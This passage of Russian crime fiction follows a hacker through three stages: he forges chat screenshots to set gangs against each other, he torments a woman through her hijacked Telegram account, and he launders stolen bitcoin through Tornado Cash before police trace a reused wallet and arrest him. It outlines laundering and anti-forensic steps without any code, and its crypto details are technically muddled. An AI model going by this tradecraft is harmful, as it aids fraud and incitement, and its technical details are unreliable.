Он создал на рабочем столе новую папку. informator. Перетащил туда четыре обработанных скриншота, тщательно переименовав их, чтобы они выстраивались в правильной хронологической последовательности: scr_1․jpg, scr_2․jpg, scr_3․jpg, scr_4․jpg. Это была история предательства, рассказанная в четырёх картинках.

Но этого было мало. Козлов мыслил прямолинейно. Ему нужен был не ребус, а инструкция.

Никита открыл блокнот и создал текстовый файл. READ_ME․txt. Внутри, долго не раздумывая, он напечатал одну-единственную строчку. Он намеренно использовал транслит и примитивный язык, имитируя речь одного из туповатых боевиков Козлова.

*Viktorich, smotri na dati. Eta suka s Alievim rabotala eshe do togo kak tebya kinut.*

Он не комментировал. Он отдавал прямой приказ, как именно нужно интерпретировать скриншоты. Он не оставлял Козлову пространства для манёвра. Он бил в самое больное место Козлова: в его панический страх выглядеть лохом, в его «понятийную» систему, где «крысятничество» — худший из грехов.

Теперь — упаковка. Он выделил все файлы и добавил их в архив. informator․7z. Пароль ставить не стал. Яд должен быть легкодоступен.

Оставался последний, самый болезненный шаг. Отправка. Для этого придётся сжечь один из своих самых ценных активов. У него было несколько анонимных почтовых ящиков, зарегистрированных много лет назад. Он берёг их для экстренных случаев. Он знал, что как только он отправит письмо, этот ящик будет навсегда скомпрометирован. Актив сжигался ради одной-единственной транзакции.

Он зашёл в один из таких ящиков. Интерфейс был старым, убогим. Он нажал «Написать письмо». В поле «Кому» вставил адрес, который он однажды видел в логах — личная почта «Штыка», ближайшего помощника Козлова. В поле «Тема» он написал два слова: «По твоей проблеме». В тело письма — ещё короче: «Вот кто вас сдал».

Он прикрепил архив. informator․7z. Ещё раз пробежал глазами по письму. Коротко. Жёстко. Анонимно. Идеально. Теперь оставалось только дождаться правильного момента.

*31 декабря 2023 года. 23:50. Колпино.*

Десять минут до Нового года. За окном уже вовсю грохотало. Далёкие, глухие удары салютов сменялись близкими, трескучими очередями петард. Сквозь щель в плотно задёрнутых шторах комнату периодически озаряли короткие, ирреальные вспышки. Из-за стен доносились обрывки чужого праздника: пьяный смех, звон бокалов, крики «Ура!», музыка из телевизора.

Никита сидел в полной темноте, освещённый лишь мертвенно-белым светом экрана. Весь этот шум, этот ритуальный всплеск коллективной радости казался ему звуками из другой, чужой планеты. Он был абсолютно, предельно одинок. И это одиночество было его бронёй.

Он ждал. Момент был важен. Удар нужно было наносить тогда, когда противник расслаблен, когда его бдительность притуплена алкоголем и праздником.

Часы на ноутбуке показывали 23:54. Он открыл сохранённое в черновиках письмо. Ещё раз проверил адрес, тему, вложение. Всё было на месте.

За окном раздался особенно мощный залп, заставивший задребезжать тонкое стекло в раме.

*23:55.*

Его палец, без малейшего дрожания, лёг на тачпад. Клик. В маленькой, душной комнате сухой щелчок прозвучал неестественно громко. На экране на долю секунды вспыхнуло системное уведомление: «Письмо отправлено». Он почувствовал, как напряжение, державшее его тело в тисках последние часы, разом отпустило.

«*Чека**выдернута. Граната брошена в толпу. Теперь уже ничего не изменить. Обратного пути нет. Осталось только ждать взрыва*».

Он не почувствовал ни триумфа, ни облегчения, ни страха. Только звенящую, всепоглощающую пустоту. Будто внутри него что-то оборвалось. Адреналин, который держал его тело в напряжении, иссяк в один момент.

Это было похоже на то чувство, когда в детстве он запускал модель ракеты, которую собирал целый месяц. Секунда огня и дыма, ракета уходит в небо, и ты остаёшься стоять на земле с пустым пультом в руках, и больше ничего не можешь сделать — только смотреть.

Он захлопнул крышку ноутбука. Комната погрузилась в полную темноту, разрываемую лишь всполохами фейерверков. Звуки праздника за стеной стали громче. Он, не раздеваясь, откинулся на продавленный, пахнущий чужой жизнью диван. Тело, державшееся на одном адреналине, обмякло и стало чужим. Он уставился в невидимый потолок. За окном взрывался и кричал Новый, 2024-й год. Никита не шевелился.

*1 января 2024 года. 16:00. Дом под Сестрорецком.*

Первым, что почувствовал Козлов, был вкус. Вкус старой тряпки, которой протёрли пепельницу. Он разлепил веки. Потолок спальни медленно качался. Во рту было сухо, как в пустыне. Он сел на огромной кровати, и тупая боль вбила в череп раскалённый гвоздь.

Дом был непривычно тихим. Гости разъехались под утро. Остался только запах хвои от огромной, безвкусно наряженной ёлки да горы грязной посуды. Козлов ненавидел Новый год. Фальшивый, суетливый праздник для идиотов.

Он спустился на первый этаж, одетый в шёлковый халат. В просторной гостиной, где панорамные окна выходили на заснеженный сосновый лес, его уже ждал Штык, его правая рука. Штык выглядел не лучше — помятый, с красными глазами, но на нём был идеально выглаженный костюм. В руках он держал несколько распечатанных листов.

— С Новым годом, Антон Викторович, — тихо сказал Штык.

Козлов молча взял у него листы. Подошёл к окну, щурясь от яркого света, отражённого от снега. И начал смотреть.

Он не вникал в текст. Он смотрел на картинки. Скриншоты. Интерфейс телеграма. Знакомые аватарки. На скриншотах мелькал ник его девки-дроповода, «Сойки». Его взгляд цеплялся за ключевые слова. «Бонус». «Две стороны». «В. не заподозрил». Отдельно был распечатан текстовый файл. Viktorich, smotri na dati...

Он читал молча. Его лицо застыло. Только мышцы на челюсти под кожей перекатывались тугими узлами. Он не анализировал. Он чувствовал. И то, что он чувствовал, было похоже на раскалённый металл, который заливают ему в глотку. Предательство. Грязное, мелочное, бабское предательство. За его спиной. Его, Козлова, кинули как последнего лоха. Какая-то девка, какой-то сопляк-хакер и эта хитрожопая крыса Алиев.

В его голове всё сложилось в простую, ясную и оттого ещё более омерзительную картину. Это не был провал. Это был спланированный «кидок». Алиев через своих людей нашёл этого хакера, а тот через его девку сливал всю инфу. И все вместе они посмеялись над ним.

Он досмотрел последний лист. Медленно, очень медленно, скомкал все распечатки в один большой, плотный шар.

— Кто прислал? — его голос был тихим, почти шёпотом. От этого шёпота Штыку стало холодно.

— Анонимно, Антон Викторович. С левой почты. Пробить не смогли.

Козлов кивнул. Ему было плевать, кто прислал. Важно было то, что лежало в скомканном шаре бумаги.

Он не задавал вопросов о подлинности. Он не спрашивал, можно ли это подделать. Сама мысль об этом была оскорбительна. Сомневаться — удел слабых. Его чутьё, его животный инстинкт, отточенный годами выживания, кричал ему, что это — правда. Потому что эта правда идеально ложилась в его картину мира, где все предают всех, и доверять нельзя никому. Потому что это было простое и понятное объяснение, которое не требовало разбираться во всей этой «компуктерной херне».

Он швырнул бумажный шар в потухший камин. Повернулся к Штыку. Взгляд у него был тяжёлый, пустой.

— У Алиева есть зам по безопасности. Бывший собровец. Марат Хасанов. Найти. Привезти сюда. Живым.

Он сделал паузу, глядя на Штыка в упор.

— А девку эту… Сойку… Тоже найти. Но с ней не торопись. С ней я поговорю лично.

Война началась.

*3 января 2024 года. 20:00. Колпино.*

Два дня Никита провёл в вязком, напряжённом ожидании. Он почти не отходил от ноутбука, методично обновляя новостные ленты питерских изданий. «Фонтанка», «47news», городские паблики ВКонтакте. Он искал эхо своего выстрела. Он знал, что оно должно появиться.

Наконец, вечером третьего января, он нашёл то, что искал. Короткая, скупая заметка на «Фонтанке» в разделе «Происшествия». Заголовок был нейтральным: «Конфликт на парковке у ТЦ закончился стрельбой». В тексте говорилось о том, что днём на парковке торгового центра «Европолис» произошла стычка между двумя «группами предпринимателей». Упоминался один раненый и несколько задержанных. Ни имён, ни названий компаний. Но Никите этого было достаточно. «Европолис» был одним из мест, где, как он знал из логов, люди Алиева любили проводить встречи. Это был тот самый взрыв. Тихий, локальный, но он произошёл. План сработал.

Он бесстрастно закрыл вкладку. Ни радости, ни удовлетворения. Просто галочка в ментальном чек-листе. Пункт «ДЕСТАБИЛИЗАЦИЯ» выполнен.

Теперь нужно было замести последний след. Уничтожить свидетеля. Не физически. Психологически.

Он в последний раз вошёл в скомпрометированный аккаунт Елены Вороновой. Он мог бы написать ей угрозу. Мог бы шантажировать её. Мог бы потребовать денег. Но всё это было слишком грубо, слишком примитивно. Он выбрал более изощрённый, более жестокий метод.

Он пролистал её чаты. Нашёл тот, что был закреплён вверху списка. «Избранное». Личное пространство, которое видит только она сама. Дневник, записная книжка. Он открыл его.

Курсор замигал в пустом поле ввода. Он напечатал три слова.

Плохо работаешь, Сойка.

Он смотрел на эти три слова на экране. Идеальная, законченная формула вируса, который будет пожирать её изнутри до конца жизни. Он нажал Enter. Сообщение с одной галочкой появилось в её личном чате.

«*Всё. Теперь она в аду. В её личном, персональном аду. Кто это написал? Козлов, который всё узнал? Алиев, который решил её убрать? Её куратор Власов, который списал её со счетов и отправил ей чёрную метку? Или кто-то ещё? Она никогда не узнает. Она будет оглядываться на каждого прохожего. Вздрагивать от каждого звонка. Перечитывать это сообщение снова и снова. Она сломлена. Навсегда».*

Впервые за много дней он почувствовал что-то, отдалённо напоминающее удовлетворение. Не радость. А холодное, чистое чувство выполненной работы. Как у хирурга, который только что ампутировал поражённую гангреной конечность.

Он вспомнил, как в детстве ловил в банку паука и бросал ему туда муравья. Он часами мог наблюдать за этой маленькой, жестокой драмой, чувствуя свою абсолютную, божественную власть над этими крошечными жизнями. Сейчас он чувствовал то же самое.

Он не стал дожидаться, пока сообщение будет прочитано. Ему это было неинтересно. Он зашёл в настройки, нажал «Завершить все другие сеансы», подтвердил. Затем нажал «Выйти».

Окно Telegram исчезло. Он запустил заранее написанный скрипт, который за несколько проходов зачистил все следы его работы на этом ноутбуке — историю браузера, временные файлы, логи системы.

Когда всё было кончено, он выключил ноутбук. В комнате снова воцарилась тишина. Впервые за много недель он почувствовал что-то похожее на спокойствие. Враги грызли друг друга. Система была взломана. Путь к деньгам был открыт.

### Глава 14

Глава 14

Двенадцать дней.

Двенадцать дней эфир молчал. Это молчание закладывало уши, как на большой глубине. Первые двое суток Никита почти не спал, вздрагивая от каждого скрипа просевшего ламината, от грохота мусоровоза под окнами, от любого шороха за тонкой картонной дверью. Он превратил свою жизнь в протокол: к окну не подходить, свет включать только поздно вечером, музыку слушать в одном наушнике, чтобы второе ухо контролировало пространство.

Еда из доставки, заказанная через Tor на левые аккаунты, оставлялась курьером у двери. Он ждал ровно десять минут, прежде чем приоткрыть замок и затащить остывающий пакет внутрь.

А на третий день механизм пришёл в движение. Сначала в криминальной хронике мелькнула короткая заметка о сгоревшем дотла BMW X5, найденном в лесополосе. Номера были сбиты, но в узких кругах все знали, чья это была машина. На пятый день всплыло тело в канале Грибоедова — один из помощников Алиева. На восьмой день — перестрелка на парковке у складского комплекса в Шушарах. Двое убитых, трое раненых. Полиция сухо комментировала происходящее как «разборки криминальных группировок».

И с каждой такой новостью, с каждым подтверждением того, что запущенный им механизм хаоса набирает обороты, животный страх в Никите вытесняло холодное, высокомерное удовлетворение. Он перестал быть загнанной крысой. Он стал зрителем в первом ряду, режиссёром, который с отстранённым интересом наблюдает за кровавой пьесой, поставленной по его сценарию. Он презирал их всех: тупого Козлова; хитрого, но слишком самоуверенного Алиева; неповоротливую, слепую Систему, которая бросилась на крупную наживку, оставив его, мелкую рыбёшку, в мутной воде.

Он больше не искал в новостях упоминания «СеверСтройИнвеста» или слова «хакер». Он знал — о нём забыли. Все были слишком заняты друг другом. Его гениальный ход сработал безупречно. Эта уверенность, как медленный яд, проникала в кровь, притупляя инстинкты. Он начал верить в собственную неуязвимость.

Физически он превращался в тень. Кожа приобрела сероватый оттенок зажёванной принтером бумаги. Под глазами залегли тёмные круги. Комната в Колпино пропиталась запахом застоявшегося табачного дыма, остывшего жира и перегретого пластика от постоянно работающего ноутбука. На столе выросла уродливая пирамида из пустых алюминиевых банок, среди которых валялись засохшие корочки пиццы. Памятник его двенадцатидневному бдению. Психологически же он никогда не чувствовал себя сильнее. Он был готов сделать последний ход.

Пятнадцатого января, в одиннадцать утра, Никита открыл последнюю банку энергетика. Резкий пшик газа ударил по тишине комнаты. Жидкость ударила в горло приторной химической сладостью. Он почувствовал, как по пищеводу катится холод, а тело отвечает на дозу кофеина и таурина знакомой мелкой дрожью. Топливо. Машина требовала топлива.

Его взгляд скользнул по открытым вкладкам браузера. Криминальная хроника. Он читал их уже не как жертва, а как кукловод. Вот статья о найденном в багажнике теле Марата Хасанова, зама по безопасности Алиева. Заголовок был пресным: «В Ленобласти обнаружен труп мужчины с признаками насильственной смерти». Никита усмехнулся одним углом рта. «Признаки насильственной смерти». Наверняка от Хасанова мало что осталось. Расходники. Просто грёбаные расходники. Чувства вины не было. Лишь холодное, отстранённое подтверждение — система работает, как он и задумал. В желудке, впрочем, что-то неприятно шевельнулось. Не совесть. Скорее, фантомная боль от понимания, в какой мир он залез. Мир, где человеческая туша стоила дешевле левой сим-карты.

В этот момент на тумбочке у кровати завибрировал старый кнопочный телефон. Коротко, настойчиво. Звук был чужеродным в этом цифровом коконе, грубым вторжением аналоговой реальности. Никита замер. Весь мир с его криминальными сводками и планами отступил, сжался до этого настойчивого, чужеродного жужжания. На дисплее высветилось одно слово: «МАМА». Он медленно, будто боясь спугнуть, взял телефон.

Он нажал зелёную кнопку.

— Да, мам.

Голос матери в трубке был слабым, бумажным.

— Никита, звонил врач… из клиники. Сказал, нужно решаться. Быстро. Динамика плохая.

Слова были простые, обыденные, но каждое из них отменяло его реальность, стирало его только что обретённую уверенность. Вся его напускная спесь, всё высокомерие кукловода слетели с него, как дешёвая позолота. Остался только липкий страх — тот самый, из детства.

— Я… я понял, мам. Деньги. Сколько?

— Он сказал, первый взнос — сто двадцать тысяч. Евро. И потом ещё… Никита, это такие деньги…

— Неважно, — отрезал он резче, чем хотел.

На том конце всхлипнули.

— Мам, неважно. Деньги будут. Я же сказал, я всё решу. Просто… делай, что говорят врачи. Соглашайся.

Он сбросил звонок, не дожидаясь ответа. Телефон упал на смятое одеяло. Всё. Вся его сложная игра, вся эта кровавая шахматная партия — всё свелось к этой простой, ультимативной цели. Сто двадцать тысяч евро. Прямо сейчас. Он посмотрел на стол. Рядом с горой мусора лежал маленький чёрный брусок пластика. Ledger Nano S. Его билет в другую жизнь. Его и матери.

— Пора, — сказал он вслух. Голос прозвучал хрипло и незнакомо.

Он закрыл все вкладки с новостями. Война банд больше не имела значения. Пьеса окончена. Время забрать гонорар.

Ритуал начался. Каждое движение было выверенным, отточенным сотнями часов паранойи.

Сначала — перезагрузка. Ноутбук ушёл в темноту. При включении, зажав F12, Никита выбрал загрузку с зашифрованной флешки. На экране поползли строки загрузки ядра Linux. Через минуту перед ним был рабочий стол Whonix — системы, весь трафик которой принудительно заворачивался через сеть Tor.

Он открыл терминал. Проверил свой внешний IP-адрес. Ответ пришёл через секунду: 85․25․103․148. Геолокация — Цюрих, Швейцария. Выходная нода Tor работала исправно. Он был призраком.

Следующий шаг — доступ к деньгам. Его «грязные» биткоины лежали на нескольких анонимных кошельках. Общая сумма — чуть больше двухсот тысяч долларов. Теперь их нужно было отмыть. Он открыл Tor Browser и вбил адрес сервиса Tornado Cash.

Никита выбрал пул анонимности на 100 ETH. Безопасность превыше всего. Он скопировал адрес своего первого «грязного» кошелька. Система сгенерировала секретную «записку» — криптографический ключ. Потеряешь записку — потеряешь деньги. Он скопировал ключ в зашифрованный текстовый файл, трижды проверив каждый символ.

Он перевёл взгляд на кнопку «Deposit». Точка невозврата.

Он нажал. Он почувствовал, как напряжение стягивает мышцы шеи, а по рукам прошла лёгкая дрожь. «Всё. Ушли». Мысль была не мыслью, а констатацией факта. Теперь они в чёрном ящике, в математическом хаосе вместе с деньгами наркокартелей, торговцев оружием и таких же, как он. Это было похоже на прыжок с обрыва в тёмную воду — та же смесь ужаса и всемогущества.

Теперь оставалось ждать. Подтверждение транзакции в сети Bitcoin могло занять до часа. Он открыл обозреватель блокчейна. На экране появилась надпись: «0/6 confirmations». Минуты тянулись, как пинг до австралийского сервера.

Пока транзакция подтверждалась, он готовил место для приёма «чистых» денег. Он достал из рюкзака свой Ledger. Холодный чёрный брусок пластика лёг в потную ладонь. Он подключил его к USB-порту, ввёл восьмизначный пин-код, прикрывая клавиатуру рукой. Ему нужен был адрес назначения. Новый, девственный, никогда не использовавшийся ранее. Это было самое важное правило цифровой гигиены. Никогда не смешивать.

Наконец, на экране обозревателя блокчейна появилась долгожданная надпись: «6/6 confirmations». Деньги были приняты миксером.

Час дня. Никита протёр воспалённые, красные глаза. Его колотило. Не от страха, а от дикой смеси кофеина и нервного истощения. В ушах стучала кровь. Он хотел только одного — закончить. Закончить всё это как можно скорее. Эта спешка, это желание срезать углы, было его главным врагом, но он этого ещё не осознавал.

На экране ноутбука открылся интерфейс программы Ledger Live. Он выбрал счёт Bitcoin и нажал на кнопку «Receive». Программа тут же отобразила окно с QR-кодом и длинной строкой символов под ним — свежесгенерированным, чистым адресом. Но чуть выше, в небольшом поле «Previously used addresses», висел список старых адресов. Первая же строка, начинавшаяся с bc1q..., была ему смутно знакома, но мозг, перегруженный информацией, не зацепился за это.

Он должен был нажать кнопку «Copy» под новым адресом. Одно простое движение. Но уставшее тело выбрало путь наименьшего сопротивления: палец, ведомый слепой мышечной памятью, сам дёрнул курсор чуть выше. На первую строчку в списке уже использованных. Двойной щелчок. Привычный, автоматический.

Это был тот самый адрес. Адрес, который он использовал почти год назад для анонимной покупки подписки на NordVPN. Адрес, который он привязал к аккаунту, оплаченному с ворованной карты на имя бомжа Игоря Самойлова. Адрес, который уже лежал в базе данных ГУЭБиПК как улика по старому, нераскрытому делу. Он этого не помнил.

Комбинация клавиш Ctrl+C. Он переключился на окно Tornado Cash, где система уже ждала адрес назначения. Ctrl+V. Вставил. Его взгляд, затуманенный усталостью, механически пробежался по первым и последним символам. bc1q... и ..․w7p5. Совпадают. Он не стал перепроверять адрес целиком.

Он нажал кнопку «Withdraw».

Секундная задержка, и на экране появилось зелёное уведомление: «Withdrawal successful».

«Всё. Кончено. Я победил». Это была не мысль, а ощущение огромной горы, свалившейся с плеч. Тиски, сжимавшие его грудь последние месяцы, наконец разжались. Он сделал глубокий, прерывистый вдох, первый по-настоящему полный вдох за последнее время. Это было похоже на чувство, когда после долгой, мучительной болезни спадает температура: слабость, пустота и огромное облегчение.

Никита откинулся на скрипучую спинку стула и закрыл глаза. Он не знал, что только что подписал себе приговор. Он выдернул кабель Ledger из ноутбука. Всё. Финальный аккорд. Он победил.

Четыре часа пополудни. Кабинет в здании на Литейном проспекте. Олег, молодой аналитик в штатском, допивал свой третий за день остывший американо. Его работа была воплощением скуки: фоново мониторить «висяки» в надежде, что кто-то из фигурантов совершит ошибку.

На одном из его трёх мониторов был развёрнут интерфейс программы Chainalysis Reactor. Паутина из разноцветных линий, соединяющих сотни узлов. Зелёные узлы — биржи, чёрные — даркнет-маркетплейсы, красные — кошельки, связанные с преступной деятельностью.

Внезапно один из старых, серых узлов, помеченный как «Дело № 78-451-23, Самойлов И.А.», вспыхнул ярко-красным. Система подала тихий, настойчивый звуковой сигнал. На «мёртвый» кошелёк поступила крупная транзакция. Линия, ведущая к нему, тянулась от огромного, пульсирующего чёрного узла с пометкой «Tornado Cash Mixer».

Олег подавился кофе. Он несколько раз моргнул. Иллюзия не исчезла. Ошибки не было. Сумма — эквивалент почти ста тысяч долларов. Из миксера. На кошелёк, который был единственной зацепкой по делу о взломе «СеверСтройИнвеста».

Он вскочил со стула. Подошёл к двери кабинета Власова и тихо постучал.

— Да! — рявкнул Власов.

Олег приоткрыл дверь.

— Дмитрий Сергеевич, извините. Тут аномалия по старому делу. Помните группу «СеверСтройИнвеста»? Наш B4d_M00d.

Власов прикрыл трубку ладонью, на его лице было написано крайнее раздражение.

— Подожди, — бросил он в трубку. Олегу он сказал: — Что там? Быстро.

— На кошелёк, привязанный к покупке VPN на Самойлова, пришла транзакция из «Торнадо». Крупная. Только что. Похоже, наш клиент решил обналичиться.

Власов молча положил трубку на аппарат. Он не извинился перед собеседником. Медленно, будто нехотя, он подошёл к монитору Олега. Он смотрел на граф. На эту простую, неоспоримую линию, соединявшую чёрный ящик миксера и старую, забытую улику. Усталость на его лице мгновенно испарилась. Её сменило хищное, предельно сосредоточенное выражение. Он смотрел, как смотрит охотник на след зверя, который сам вышел к капкану. Ловушка, расставленная почти год назад по стандартному протоколу, сработала. Система помнила всё.

Четверть пятого. Власов молча отошёл от монитора Олега и бросил на ходу:

— Хорошая работа. Распечатай мне всё. Граф, хэши, время.

Он вернулся к своему столу, сел в кресло и взял трубку телефона внутренней связи. Его голос был спокойным, лишённым каких-либо эмоций.

— Первому отделу. Поднять дело номер семьдесят восемь, дробь четыреста пятьдесят один, дробь двадцать три. Фигурант Самойлов Игорь Анатольевич. Мне нужны все адреса, где он мог появляться за последние пять лет. Притоны, ночлежки, адреса регистрации. Особый интерес — адрес проживания его матери, Сергеевой Ирины Павловны, улица Кораблестроителей. Проверить по базам, актуален ли. Он переключил селектор.

— Группу захвата на изготовку. Полная экипировка, но без шума. Работать будем тихо, на входе в подъезд. Объект может быть один, может быть с деньгами. Задача — взять тёплым. Повторяю: без шума. Адрес цели сообщу дополнительно через пять минут.

Власов положил трубку. Он повернулся в кресле к окну. За стеклом начинался ранний январский вечер. Грязный, серый снег летел параллельно земле. В окнах соседнего здания зажигался свет. Обычный питерский вечер. Он видел тонкую цифровую нить, которая протянулась из анонимного хаоса даркнета прямо в старую панельку на Васильевском острове. Петля затянулась. Оставалось только дёрнуть.

### Глава 15

Глава 15

Десять дней. Десять суток ложного штиля, за которые паранойя, ставшая второй кожей, начала отслаиваться. Первые семьдесят два часа Никита существовал в режиме сторожевого процесса — короткие, рваные сны, подпитка из кофеина, ежеминутная проверка блокчейн-эксплорера и новостных агрегаторов. Он искал эхо, малейший всплеск на поверхности информационной глади, который бы указал на погоню. Но поверхность оставалась зеркальной. Только криминальные сводки сообщали о новых эпизодах войны между людьми Козлова и Алиева.

И эта тишина, поначалу зловещая, постепенно превратилась в неопровержимое доказательство его гениальности. Страх атрофировался. На его место пришло высокомерное, пьянящее удовлетворение. Он перестал быть целью и начал ощущать себя кукловодом, наблюдающим с Олимпа за пляской своих марионеток. Он позволил себе спать по шесть часов подряд и даже заказал горячую пиццу. Посмотрел какой-то старый фильм. Он начал планировать не выживание, а жизнь. Маршруты через псковские леса в Латвию. Названия немецких клиник. Курсы валют. Эта ментальная смена фокуса сделала его слепым и глухим. Животный инстинкт, так долго державший его в тонусе, уснул, убаюканный иллюзией полной победы.

*25 января 2024, 19:02*

Станция метро «Приморская». Воздух, выдохнутый из туннеля, ударил в лицо волной тепла, пахнущего влажным бетоном, горелой изоляцией и тормозной пылью. Никита вышел из вагона последним, растворяясь в безликой толпе. Он был одет в самую неприметную одежду: чёрная синтепоновая куртка, тёмные джинсы, стоптанные зимние ботинки. Низко натянутая шапка и медицинская маска скрывали лицо.

Он двигался плавно, не выделяясь, но внутри всё вибрировало от непривычного контакта с миром. Десять дней в герметичной тишине отучили его от людей. Их близость, их запахи, их громкие голоса — всё это ощущалось как физическое вторжение. Он чувствовал не страх. Скорее, брезгливое раздражение. Толпа «NPC», бездумно снующих по своим маршрутам, мешала ему выполнить финальный квест.

Он поднялся по эскалатору. Холодный свет люминесцентных ламп отражался в серых гранитных плитах, придавая лицам людей мертвенно-синеватый оттенок. В голове, уже в сотый раз, прокручивался безупречный, как ему казалось, алгоритм. Действие первое: дойти до дома. Действие второе: войти в подъезд. Действие третье: положить конверт в ящик №27. Действие четвёртое: выйти. Действие пятое: отправить матери одно-единственное СМС. Действие шестое: выбросить телефон и сим-карту. Действие седьмое: вызвать такси на автовокзал. Исчезнуть. План был прост, надёжен и не содержал ни одной уязвимости. Он был в этом абсолютно уверен.

Улица Кораблестроителей встретила его порывом ледяного ветра с залива. Морозный воздух после спёртой духоты метро показался чистым. Он втянул его полной грудью. Здесь он вырос. Каждый панельный девятиэтажный корабль, каждая уродливая арка были частью его исходного кода. Он шёл мимо окон, светящихся жёлтым. За ними текли чужие, обычные жизни. А он, невидимый администратор этой реальности, проходил мимо, неся в кармане спасение для одной жизни. Впервые за долгие месяцы он осознал, что дышит полной грудью, а плечи не стянуты каменным панцирем. Тихое, глубокое облегчение. Скоро всё это закончится. Клиника в Мюнхене. Новое имя, новая легенда. Он сможет наконец выдохнуть. Это предвкушение будущего окончательно усыпило его бдительность.

У поворота к нужному двору он замер. У обочины, припаркованный в тени, стоял тёмно-синий «Форд Фокус». Стёкла были наглухо запотевшими, двигатель не работал. Старый рефлекс, вбитый в позвоночник неделями страха, дёрнул за невидимый поводок. Он остановился, спрятавшись за газетным киоском, и вглядывался в машину. Внутри угадывался тёмный силуэт на водительском сиденье. Человек. Просто сидит. Ждёт. Никита выругал себя. «Хватит. Кончай. Это уже не паранойя, а клиника. Ты всё проверил. За тобой никто не идёт. Ты победил. Они воюют друг с другом, а Власов ищет твоего козла отпущения. Ты — призрак. Тебя нет». Он сделал над собой сознательное усилие. Это был тот самый момент, когда часовой на посту, уставший от долгого дежурства, решает, что ничего не случится. Он отключил свой внутренний протокол безопасности и шагнул из-за киоска.

Вот он, его подъезд. Третий. Он поднял голову. Седьмой этаж. В двух окнах материнской квартиры горел тёплый, уютный свет. Он представил её там, в старом кресле, укутанную в плед. Она не знает, что её спасение находится сейчас в ста метрах от неё, в толстой пачке купюр, оттягивающей карман его куртки. Мысль о том, что он её спас, — придала ему сил и окончательно смыла остатки тревоги. Он глубоко вздохнул и решительно направился к двери подъезда.

**19:15**

Металлическая дверь поддалась с натужным скрипом, который он помнил с детства. В нос ударил густой, слоистый запах подъезда: сырость из подвала, резкая нота дешёвых сигарет и кисловатый дух варёной капусты. Для кого-то это была бы просто вонь. Для Никиты это был запах дома, триггер, мгновенно вызвавший из памяти десятки ненужных образов.

Он вошёл внутрь. Дверь за ним захлопнулась с тяжёлым стуком, отрезая его от уличного шума. Наступила тишина, нарушаемая лишь низким гудением электрощитка. Тусклая лампочка под потолком мигала, бросая на обшарпанные стены дёрганые тени. Он прошёл к ряду почтовых ящиков, вмонтированных в стену. Его шаги по грязному кафельному полу казались неестественно громкими. Он нашёл свой номер — 27. Полез во внутренний карман куртки, нащупал одинокий ключ. Ключ на мгновение заупрямился, но всё же вошёл в замочную скважину. Поворот. Сухой, резкий щелчок замка разорвал тишину.

Он приоткрыл дверцу ящика. Пусто. Он сунул руку в другой внутренний карман, нащупывая толстый, плотный конверт. Пальцы коснулись шершавой бумаги. И тут же — тихий, мягкий шорох с лестницы над ним. Кто-то спускался. Очень медленно, словно не хотел производить шума.

Инстинкт, который он так неосмотрительно усыпил, взорвался сверхновой. Он замер, не дыша. Рука застыла в кармане. Из-за поворота лестничного пролёта показались ноги в обычных зимних ботинках. Затем появился и сам человек. Мужчина лет сорока, ничем не примечательный, с обычным, уставшим лицом. Он не смотрел на Никиту. Его взгляд был направлен на выход. Он спокойно спустился, прошёл в метре от Никиты. Никита медленно выдохнул. Показалось. Просто сосед. И в этот самый момент, когда волна облегчения уже начала омывать его, мужчина, прошедший мимо, резко развернулся.

Одновременно, сзади, из тёмной ниши за лифтом, бесшумно вышел второй. Высокий, плотный. Третий материализовался у выхода, блокируя единственный путь к отступлению. Все трое были в штатском. Никакой формы, никаких автоматов. Просто трое мужчин в одинаково безликих куртках, которые за две секунды превратили знакомый подъезд в герметичную ловушку.

Первый, тот, что спустился с лестницы, сделал шаг к Никите. Его лицо не выражало ничего — ни угрозы, ни злорадства. Просто профессиональное спокойствие. Он посмотрел Никите прямо в глаза и тихо, почти безразлично, произнёс:

— Сергеев Никита Андреевич?

Фраза прозвучала без вопросительной интонации. Как последняя строка в отчёте. Конец протокола. Мир вокруг застыл, распавшись на отдельные, мучительно чёткие кадры. Он видел всё с невозможной ясностью: пылинки, танцующие в мигающем свете лампы; трещинку на кафельном полу; капельку влаги на кончике носа оперативника. Конверт с деньгами, ставший вдруг невыносимо тяжёлым и бессмысленным, выскользнул из его онемевших пальцев. Он упал на грязный пол с тихим, бумажным шелестом. Он просто смотрел на них пустыми, стеклянными глазами, пока второй оперативник заходил ему за спину. Он почувствовал, как его руки с профессиональной быстротой завели за спину. Раздался сухой, металлический двойной щелчок. Холодная сталь наручников сомкнулась на его запястьях.

*19:17*

Его вели к выходу. Не толкали, не тащили. Просто вели, держа под локти. Он шёл механически, как автомат, чью программу стёрли. Когда дверь подъезда открылась, ему в лицо снова ударил морозный воздух. Он увидел на свежем снегу следы — свои собственные. Одна-единственная цепочка следов. Прямая, уверенная, ведущая точно в капкан.

Машина была та самая. Тёмно-синий «Форд Фокус». Теперь он понял, почему стёкла были запотевшими — внутри сидели люди и дышали. Его провели к задней двери, открыли её и почти бережно усадили на сиденье. Дверь захлопнулась, и мир снаружи мгновенно стал немым кино. На переднем пассажирском сиденье сидел мужчина. Он не обернулся. Он просто смотрел на Никиту в зеркало заднего вида. Мужчина был в очках в тонкой металлической оправе, на нём было недорогое пальто. Усталое, интеллигентное лицо. Никита узнал его сразу. Даже по этой нечёткой, увеличенной нейросетью аватарке он запомнил эти глаза. Майор Власов.

На лице Власова не было ни капли триумфа. Ни злорадства. Ни ненависти. Только спокойное, профессиональное любопытство и глубокая, въевшаяся в морщины у глаз усталость. Он смотрел на Никиту так, как энтомолог смотрит на пойманного редкого жука. Без эмоций. Для Власова это была не личная победа. Это был просто конец долгого рабочего дня. Рутина. И от этой обыденности, от этой канцелярской банальности своего краха Никите стало ещё хуже. Он был не поверженным врагом. Он был пунктом в отчёте.

Машина плавно тронулась. В салоне стояла абсолютная тишина. Власов ничего не говорил. Двое оперативников по бокам от Никиты тоже молчали. Никита повернул голову к окну. Он смотрел, как за тонированным стеклом проплывает его двор. Вот детская площадка. Качели, на которых он когда-то раскачивался так высоко, что захватывало дух. Вот хоккейная коробка, где он сломал руку. Вот скамейка, на которой он впервые выпил пива. Мир его детства продолжал существовать, абсолютно безразличный к тому, что его самого только что вырвали из этой реальности навсегда.

